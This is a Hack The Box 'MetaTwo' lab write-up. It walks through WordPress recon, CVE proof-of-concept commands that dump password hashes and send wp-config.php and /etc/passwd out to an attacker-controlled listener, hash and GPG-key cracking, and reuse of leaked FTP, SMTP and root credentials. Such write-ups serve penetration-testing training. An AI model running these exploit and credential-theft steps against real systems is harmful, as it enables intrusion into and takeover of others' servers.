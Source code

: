 ```yaml
---
title: HTB-MetaTwo
date: 2024-11-06 06:45:18
tags:
- HTB
---
```

# Nmap
`nmap -Pn -sC -sV -O -T3 -p- 10.10.11.186 -oN nmap_scan`
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
```

# Website
Domain = `metapress.htb`
```
echo "10.10.11.186 metapress.htb" | sudo tee -a /etc/hosts
```
Its wordpress so we can do a basic scan with the tool `wpscan`
```
wpscan --url http://metapress.htb/
```
The scan gave us some good info like `WordPress version 5.6.2` and  `PHP/8.0.24`
Potential CVE if we manage to get a user CVE-2021-29447
https://github.com/0xRar/CVE-2021-29447-PoC

# Event Form
The even form has no SSTI. Also i tried looking into other tickets to maybe get some email adresses.
The request is this and the `appointment_id` the base64 encoded
http://metapress.htb/thank-you/?appointment_id=MQ==
`echo "MQ==" | base64 -d` the output was 1 I will try to brute force it in burp
I run the first 100 ids but nothing expect mine came back with info

Looking into the source code we find that it runs bookingpress a CVE that might works is
[CVE-2022-0739](https://github.com/destr4ct/CVE-2022-0739)

In the poc it says we need the `nonce` we can find that if we look on the event page source code by searching `_wpnonce`.
![Wpnonce](/images/MetaTwo/MT(nonce).png)
After running the poc we get:
![POC](/images/MetaTwo/MT(poc).png)
```
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```

# Cracking the hash
I run `hash-identifier` and i found that the hash is MD5(Wordpress)
![Hash-id](/images/MetaTwo/MT(Hash-id).png)
With a quick search we find that the hashcat mode is 400 (from this website https://hashcat.net/wiki/doku.php?id=example_hashes)
```
hashcat hashes.txt -m 400 /usr/share/wordlists/rockyou.txt
```
Manager hash cracked
```
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```
`Manager:partylikearockstar
`

# Manager Dashboard
![ManagerDash](/images/MetaTwo/MT(Manager_Dash).png)
As we can see we don't have alot of privilages to change the website but we can upload media. From the initial recon I had found the CVE-2021-29447
https://github.com/0xRar/CVE-2021-29447-PoC

We can run the poc code
```
python3 PoC.py -l 10.10.14.20 -p 8888 -f /etc/passwd
```
and we get a base64 encoded message
![Decode](/images/MetaTwo/MT(CVE-MEDIA).png)
we can decode that by putting it on the `decode.php` and running
```
php decode.php
```
![Decoder](/images/MetaTwo/MT(decoding).png)
Now we will try to get the /wpconfig.php
```
python3 PoC.py -l 10.10.14.20 -p 8888 -f ../wp-config.php
```
![wp-cong](/images/MetaTwo/MT(Wp-config).png)
After decoding it we find:
```
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```
the ftp username and password `metapress.htb:9NYS_ii@FyL_p5M2NvJ`
(and some db creds)
```
/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );
```

# Ftp 

```
ftp 10.10.11.186
```
Using the creds we got `metapress.htb:9NYS_ii@FyL_p5M2NvJ` we can login to ftp. Inside the ftp we find another app that runs named `mailer`.  Inside there there is a file `send_email.php` we can download that file to our system with:
```
get send_email.php
```
In there we find user and pass and another port `587` that we didnt see on nmap
```
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587; 
```

We can try use those creds to login via ssh
```
ssh jnelson@metapress.htb
```
Creds worked and we have a shell as `jnelson`

# Privilege Escalation

Doing `ls -la` we can see a folder that its not common on linux machines a `passpie` folder
that holds some keys
The passpie export command exports the credentials saved in passpie in plain text. `passpie export password.db` but we dont have the passphrase.

We will download our keys to our machine with:
```
scp jnelson@metapress.htb:/home/jnelson/.passpie/.keys ./keys
```
First let us generate the password hash from the private GPG key using gpg2john and save it into a file named keys.hash
```
gpg2john keys > keys.hash
```
We can now try brute-forcing the password hash and see if we can be cracked. We can use "John The Ripper" for this purpose
```
john -wordlist=/usr/share/wordlists/rockyou.txt keys.hash --format=gpg
```
![John](/images/MetaTwo/MT(johncrack).png)
and we get `blink182` as passpi passphrase.

Now we can do
```
passpie export ~/password.db
```
```
cat ~/password.db
```
```
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```
We got creds for root `root:p7qfAZt4_A1xo_0x` now we can just ssh to root
```
ssh root@metapress.htb
```
